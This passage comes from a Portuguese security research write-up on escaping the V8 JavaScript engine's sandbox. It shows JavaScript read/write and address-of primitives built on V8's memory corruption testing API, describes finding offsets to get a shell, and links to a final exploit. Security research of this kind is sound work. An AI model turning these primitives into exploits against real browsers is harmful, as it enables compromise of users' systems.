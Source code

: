 Para adaptar o exploit usando a memory corruption API não é muito complexo, podemos criar as seguintes funções para simular uma exploração bem sucedida dentro da v8 sandbox:

```javascript
let sandboxMemory = new DataView(new Sandbox.MemoryView(0, 0x100000000));

function addrOf(obj) {
  return Sandbox.getAddressOf(obj);
}

function v8_read64(addr) {
  return sandboxMemory.getBigUint64(Number(addr), true);
}

function v8_write64(addr, val) {
  return sandboxMemory.setBigInt64(Number(addr), val, true);
}
```

E para escrever o exploit, precisamos apenas *debuggar* um pouco para encontrar os novos offsets e valores que precisamos/podemos corromper:

![poping-shell-memory-corruption-api.png](/assets/imgs/abusing-liftoff-assembly/poping-shell-memory-corruption-api.png)

[Final exploit](https://github.com/R3tr074/exploits/blob/master/browser/v8/v8-sandbox-escape/exploit.js)

---

Se você tiver qualquer duvida sobre o paper, fique a vontade para entrar em [contato](https://twitter.com/r3tr074).

